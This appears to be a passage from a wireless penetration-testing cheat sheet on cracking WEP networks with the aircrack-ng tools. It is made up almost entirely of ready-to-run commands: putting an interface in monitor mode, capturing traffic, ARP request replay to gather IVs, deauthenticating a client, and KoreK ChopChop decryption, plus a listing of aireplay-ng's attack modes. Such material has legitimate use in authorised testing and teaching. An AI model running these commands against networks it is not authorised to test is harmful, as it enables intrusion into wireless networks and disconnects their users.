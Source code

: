 #### Capture & ARP Request Replay

Capture an encrypted packet which is the size of an ARP request, replays it to the AP, which generates new packets with **extra IVs**

```bash
# Using appropriate channel found using airodump-ng for the 1st time
airmon-ng stop wlan1mon
airmon-ng start wlan1 <CHANNEL>
airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -3 -b <BSSID> -h <STATION MAC> -x 600 wlan1mon
```

```bash
# WEP
aireplay-ng  --help
#  Attack modes (numbers can still be used):
#
#      --deauth      count : deauthenticate 1 or all stations (-0)
#      --fakeauth    delay : fake authentication with AP (-1)
#      --interactive       : interactive frame selection (-2)
#      --arpreplay         : standard ARP-request replay (-3)
#      --chopchop          : decrypt/chopchop WEP packet (-4)
#      --fragment          : generates valid keystream   (-5)
#      --caffe-latte       : query a client for new IVs  (-6)
#      --cfrag             : fragments against a client  (-7)
#      --migmode           : attacks WPA migration mode  (-8)
#      --test              : tests injection and quality (-9)

# WPA-PSK
tkiptun-ng --help
```

#### Capture & Deauth

```bash
airmon-ng start wlan1 #set monitor & rename wlan0 (wlan0mon)
airodump-ng wlan1mon #scan network
airodump-ng --bssid <BSSID> -w wep wlan1mon # capture from bssid (last command) , -w = prefix name

aireplay -0 1 -a <BSSID> -c <STATION MAC> wlan1mon
```

#### Capture & IP Redirection

**KoreK ChopChop**:
Chop one byte of an encrypted packet, still producing a valid CRC32

```bash
# airodump-ng --bssid <BSSID> -w wep wlan1mon

aireplay-ng -4 -b <BSSID> -h <STATION MAC> wlan1mon
# Outputting 2 files
# replay_dec_.xor replay_dec_.cap
```
